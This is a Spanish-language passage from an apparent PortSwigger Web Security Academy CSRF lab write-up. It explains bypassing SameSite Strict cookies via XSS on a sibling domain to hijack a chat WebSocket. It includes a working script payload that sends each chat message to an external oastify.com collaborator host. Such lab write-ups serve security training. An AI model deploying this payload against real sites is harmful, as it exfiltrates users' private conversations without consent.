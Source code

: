 Para obtener el `chat completo`, debemos encontrar una manera de `bypassear` la `seguridad` proporcionada por el atributo `SameSite Strict` de la `cookie` para llevar a cabo un `Cross Site WebToken Hijacking (CSWTH)`

Como hemos encontrado un `XSS` en un `sibling domain`, podemos utilizarlo para `bypassear` la `restricción` de `SameSite Strict`. Esto se debe a que cuando hacemos las `peticiones` entre `sibling domains`, se envían las `cookies`. No tenemos acceso a la `cookie`, pero sí que se `transmite`, y podemos usarla para `explotar` un `CSRF`

Lo primero que tenemos que hacer es `URL encodear` el `payload anterior` usando el `Decoder` de `BurpSuite`

```
<script>
    var webSocket = new WebSocket('wss://0a02002b038d819781de438e00860086.web-security-academy.net/chat');

    webSocket.onopen = function() {
        webSocket.send("READY");
    };

    webSocket.onmessage = function(event) {
        fetch('https://turvsl20lidgjezs09fw8s5z1q7hvajz.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

![](/assets/img/CSRF-Lab-9/image_21.png)

Si pulsamos `click derecho > Change request method` vemos que también podemos `enviar` la `solicitud` de `login` usando el método `GET`

![](/assets/img/CSRF-Lab-9/image_22.png)
